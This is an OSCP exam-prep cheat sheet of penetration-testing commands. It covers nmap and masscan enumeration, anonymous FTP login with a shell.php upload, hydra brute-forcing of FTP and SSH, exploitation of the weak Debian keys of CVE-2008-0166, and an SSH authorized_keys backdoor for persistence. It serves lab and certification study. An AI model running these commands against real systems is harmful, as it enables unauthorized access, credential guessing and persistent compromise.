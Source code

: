```yaml
---
layout: default
title : My OSCP cheat sheet
---
```


***
## Enumeration
***

```
nmap -sC -sV -o nmap -A -T5 <IP>
nmap -sC -vv -o nmap -T4 <IP>

Host Discovery
   •  nmap -sn 10.10.1.1-254 -vv -oA hosts
   •  netdiscover -r 10.10.10.0/24

DNS server discovery
   •  nmap -p 53 10.10.10.1-254 -vv -oA dcs
   
NSE Scripts Scan 
   * nmap -sV --script=vulscan/vulscan.nse (https://securitytrails.com/blog/nmap-vulnerability-scan)
   
Port specific NSE script list :

   ls /usr/share/nmap/scripts/ssh*
   ls /usr/share/nmap/scripts/smb*
   
```

***
## Scanning all ports
***

```
masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.x -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
nmap -Pn -sV -sC -p$ports 10.10.10.x

Running specific NSE scripts :
    nmap -Pn -sC -sV --script=vuln*.nse -p$ports 10.10.10.x -T4 -A
````
sC - default scripts, sV - scan for versions, oA- output all  formats
Optional - sT (performs full scan instead of syn-scan to prevent getting flagged by firewalls)
From Apache Version to finding Ubuntu version -> ubuntu httpd versions

***
## FTP: (port21)
***
```
anonymous login check 
   -  ftp <ip address>
   -  username : anonymous
   -  pwd : anonymous
   -  file upload -> put shell.php
   -  file download -> get file
  
Bruteforce ftp
   
  hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt  ftp://<IP> -u -vV
``` 

***
## SSH: (port22)
***
```
id_rsa.pub : Public key that can be used in authorized_keys for login
id_rsa : Private key that is used for login. Might ask for password. can be cracked with ssh2john and john
   -  id_rsa
   -  ssh -i id_rsa user@10.10.10.x
   -  For passwordless login, add id_rsa.pub to target's authorized_keys
   -  ssh2john

Bruteforce ssh

   hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://<IP> -u -vV
```

***
### CVE-2008-0166
***
```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

***
### SSH backdoor - post exploitation
***
```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```
